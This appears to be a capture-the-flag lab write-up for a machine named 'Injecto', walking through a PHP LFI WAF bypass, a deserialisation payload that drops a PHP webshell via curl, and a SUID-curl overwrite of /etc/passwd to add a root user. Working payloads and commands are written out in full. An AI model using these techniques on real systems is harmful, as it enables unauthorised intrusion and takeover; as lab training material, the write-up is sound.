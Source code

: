 # Injecto

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.173
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 23:05 +08
Nmap scan report for 192.168.183.173
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

### Web Enum --> PHP LFI

Port 80 shows a simple quiz application:

<figure><img src="../../../.gitbook/assets/image (92) (1).png" alt=""><figcaption></figcaption></figure>

If we click any of the buttons, we are shown a very obvious LFI.

<figure><img src="../../../.gitbook/assets/image (43) (2).png" alt=""><figcaption></figcaption></figure>

Attempting to do anything with it results in being blocked by a WAF.

<figure><img src="../../../.gitbook/assets/image (111) (6).png" alt=""><figcaption></figcaption></figure>

We can confirm that the website runs on PHP by visiting `index.php` and being shown the same page. Then, I experimented with some PHP Filter LFI exploits for the `blackdeath` page.

<figure><img src="../../../.gitbook/assets/image (45) (3).png" alt=""><figcaption></figcaption></figure>

The WAF is easily bypassed as long as we include it within the `page` parameter. We can read the code of `index.php` by visiting:

{% code overflow="wrap" %}
```
http://192.168.183.173/index.php?page=php://filter/convert.base64-encode/resource=blackdeath/../../../../../var/www/html/index
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (105) (5).png" alt=""><figcaption></figcaption></figure>

Here's the PHP code:

```php
<?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
                $extension = '.php';
            if(isset($_GET['page'])) {
                if(containsStr($_GET['page'], 'blackdeath') || containsStr($_GET['page'], 'coronavirus')) {
                    include $_GET['page'] . $extension;
                } else {
                    echo 'Tampering Detected!';
                }
            }
?>
```

### Source Code Review --> Deserialisation

We can read the `index.php` file of the `nginx` configuration here:

```
http://192.168.183.173/index.php?page=php://filter/convert.base64-encode/resource=blackdeath/../../../../../../usr/share/nginx/html/index
```

Here's the PHP code:

```php
<?php
            class MyClass {
            
            public $form_file = 'msgwithres.txt';
            public $msgo = '';
            
            public function Savemsgo() {
            
            $researcher_name = $_GET['name']; 
            $researcher_email = $_GET['email'];
            $respo = $_GET['comments'];
            
                $this-> msgo = "msgo: " . $researcher_name . " || Email : " . $researcher_email . " || Comment: " . $respo . "\n";
            
            }
            public function __destruct() { 
            file_put_contents(__DIR__ . '/' . $this->form_file,$this->msgo,FILE_APPEND);
            echo 'Saved! :)';
            }
            }
            $values_submit = $_GET['values_submit'] ?? '';
            $msgovalues_submit = unserialize($values_submit);
            
            $webApp = new MyClass;
            $webApp -> Savemsgo();
?>
```

This PHP runs for the service on port 8080. The vulnerability here is the fact that the website deserialises the output we generate.&#x20;

We can then submit a GET requests with this payload:

```php
O:7:"MyClass":2:{s:9:"form_file";s:8:"test.php";s:4:"msgo";s:29:"<?php+system($_GET['cmd']);?>";}
```

This would output a webshell on the machine for us to execute commands from. To submit it, we can just use this `curl` command:

```bash
$ curl "http://192.168.183.173:8080/index.php?values_submit=O:7:%22MyClass%22:2:%7Bs:9:%22form_file%22;s:8:%22test.php%22;s:4:%22msgo%22;s:29:%22%3C?php+system(\$_GET%5B'cmd'%5D);?%3E%22;%7D"
```

Then, we can verify that we have RCE:

<figure><img src="../../../.gitbook/assets/image (100) (3).png" alt=""><figcaption></figcaption></figure>

Getting reverse shell using the usual `bash` one-liner is easy:

<figure><img src="../../../.gitbook/assets/image (119) (4).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Curl SUID --> Overwrite /etc/passwd

I searched for SUID binaries, and found that `curl` was one of them:

```
www-data@injectocurly:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/curl
```

This means we can overwrite any file. To get a `root` shell, we can overwrite the `/etc/passwd` file. First, generate a valid hash:

```
$ openssl passwd -1 hello   
$1$wsCz0GNf$0S8e55RreE.iCJIyEr3jP.
```

Afterwards, just copy the `/etc/passwd` file and append this line:

```
hacker:$1$wsCz0GNf$0S8e55RreE.iCJIyEr3jP.:0:0::/root:/bin/sh
```

Then, host the new `passwd` file on a HTTP server and `curl` it, directing the output to `/etc/passwd`. Afterwards, `su` to the new user to get `root`:

<figure><img src="../../../.gitbook/assets/image (85) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!
